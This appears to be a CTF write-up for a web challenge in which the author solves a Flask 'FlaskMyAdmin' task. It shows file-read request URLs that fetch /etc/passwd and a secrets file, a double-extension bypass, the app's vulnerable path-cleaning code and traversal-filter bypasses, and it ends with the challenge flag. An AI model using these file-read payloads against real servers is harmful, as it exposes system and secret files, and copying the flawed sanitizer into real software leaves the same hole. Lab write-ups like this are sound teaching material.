 ```yaml
---
name: How I Parsed your JSON (2025)
event: CTF@CIT CTF 2025
category: Web
description: Writeup for How I Parsed your JSON (Web) - CTF@CIT CTF (2025) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```

# How I Parsed your JSON

## Description
> "This is the story of how I defined your schema."
> 
> The flag is in secrets.txt

## Solution
We are greeted by a `FlaskMyAdmin` page, providing some basic instructions. First, we can make basic queries where the URL looks like `http://23.179.17.40:58004/select?record=*&container=tasks`.

![](images/0.PNG)

Secondly, we have some `Getting Started` instructions.
1. Create a directory called containers
2. Create a file named after your table name (do not include .json)
3. Add your data in valid JSON format

Sounds like we need to modify the URL to create a directory first. I tried some different endpoints and request methods but it all failed. Maybe we can just read files?
{% code overflow="wrap" %}
```
http://23.179.17.40:58004/select?record=*&container=/etc/passwd
```
{% endcode %}

![](images/1.PNG)

Yep! So we can try the `secrets.txt`.
{% code overflow="wrap" %}
```
http://23.179.17.40:58004/select?record=*&container=secrets.txt
```
{% endcode %}

However, it shows `"Invalid query"`, which is probably due to comment on the page `"File extensions will be removed from queries"`.

First, I simply try two extensions, assuming that the first may be stripped but not the second. Actually, it looks good! The output shows `"Results from secrets.txt"` now, rather than `"Results from secrets"`. It still says `"Invalid query"` though 🤔

Maybe we should look for other important files. It's a Flask app, so let's try some common ones. Remember the double extension: `/app/app.py.py`
{% code overflow="wrap" %}
```python
from flask import Flask, render_template, request
import json
import os

app = Flask(__name__)

@app.route('/')
def index():
    return render_template('index.html')

@app.route('/select')
def select():
    container_name = request.args.get('container')
    record_name = request.args.get('record')

    container_name = clean_container_name(container_name)
    container_path = os.path.join('containers/', container_name)

    try:
        with open(container_path, 'r') as container_file:
            if record_name == '*':
                return_data = container_file.read()
            else:
                json_data = json.load(container_file)
                return_records = [entry.get(record_name) for entry in json_data if record_name in entry]
                return_data = ''.join(f'{r}, ' for r in return_records)[:-2]
    except:
        return_data = 'Invalid query.'

    return render_template('index.html', data=return_data, container=container_name)

def clean_container_name(n):
    n = os.path.splitext(n)[0]
    n = n.replace('../', '')
    return n

if __name__ == '__main__':
    app.run(debug=True, host='0.0.0.0')
```
{% endcode %}

Notice the code for stripping file extensions and replacing `../`, we can easily bypass that with URL-encoding (`%2e%2e%2f`) or even `..//`

We don't need to though, the flag is in `/app/secrets.txt.txt`

Just visit `http://23.179.17.40:58004/select?record=*&container=/app/secrets.txt.txt`

Flag: `CIT{235da65aa6444e27}`
